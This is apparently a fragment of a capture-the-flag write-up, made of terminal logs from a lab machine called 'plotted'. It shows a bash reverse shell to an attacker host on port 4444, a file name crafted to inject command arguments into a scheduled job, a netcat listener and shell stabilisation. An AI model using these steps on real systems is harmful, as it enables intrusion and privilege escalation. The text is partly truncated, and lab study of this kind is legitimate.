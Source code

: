 ```bash
```

```bash
www-data@plotted:/home/plot_admin/backup$ ls -lah
total 8.0K
drwxr-xr-x 2 plot_admin plot_admin 4.0K Oct 26  2021 .
drwxr-xr-x 6 plot_admin plot_admin 4.0K Oct 24  2021 ..
```

```bash
www-data@plotted:/var/www/html/portal/config$ cat shell.sh
bash -c 'exec bash -i &>/dev/tcp/xx.xxx.xx.xxx/4444 <&1'
```

```bash
www-data@plotted:/var/www/html/portal/config$ ls -lah
total 24K
drwxrwxr-x  2 www-data www-data 4.0K Sep  6 14:17 .
drwxrwxr-x 31 www-data www-data 4.0K Oct 25  2021 ..
-rw-rw-r--  1 www-data www-data 4.2K May 28  2018 config.yaml
-rw-rw-r--  1 www-data www-data  428 May 28  2018 services.yml
-rw-r--r--  1 www-data www-data   57 Sep  6 14:17 shell.sh
```


```bash
/tcp/xx.xxx.xx.xxx/4444 <&1'" > shell.sh
www-data@plotted:/var/www/html/portal/config$ ls -lah
total 24K
drwxrwxr-x  2 www-data www-data 4.0K Sep  6 14:17 .
drwxrwxr-x 31 www-data www-data 4.0K Oct 25  2021 ..
-rw-rw-r--  1 www-data www-data 4.2K May 28  2018 config.yaml
-rw-rw-r--  1 www-data www-data  428 May 28  2018 services.yml
-rw-r--r--  1 www-data www-data   57 Sep  6 14:17 shell.sh
www-data@plotted:/var/www/html/portal/config$ cat shell.sh
bash -c 'exec bash -i &>/dev/tcp/xx.xxx.xx.xxx/4444 <&1'
www-data@plotted:/var/www/html/portal/config$ touch -- '-e bash shell.sh'
www-data@plotted:/var/www/html/portal/config$ ls
'-e bash shell.sh'   config.yaml   services.yml   shell.sh
www-data@plotted:/var/www/html/portal/config$ cat '-e bash shell.sh'
cat: invalid option -- ' '
Try 'cat --help' for more information.
```

<h2>plot_admin</h2>

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 46106
bash: cannot set terminal process group (3848): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted:/var/www/html/portal/config$ id
id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
plot_admin@plotted:/var/www/html/portal/config$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<fig$ python3 -c 'import pty;pty.spawn("/bin/bash")'
plot_admin@plotted:/var/www/html/portal/config$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~# stty raw -echo; fg
nc -nlvp 4444

```bash
plot_admin@plotted:/var/www/html/portal/config$ export TERM=xterm
```
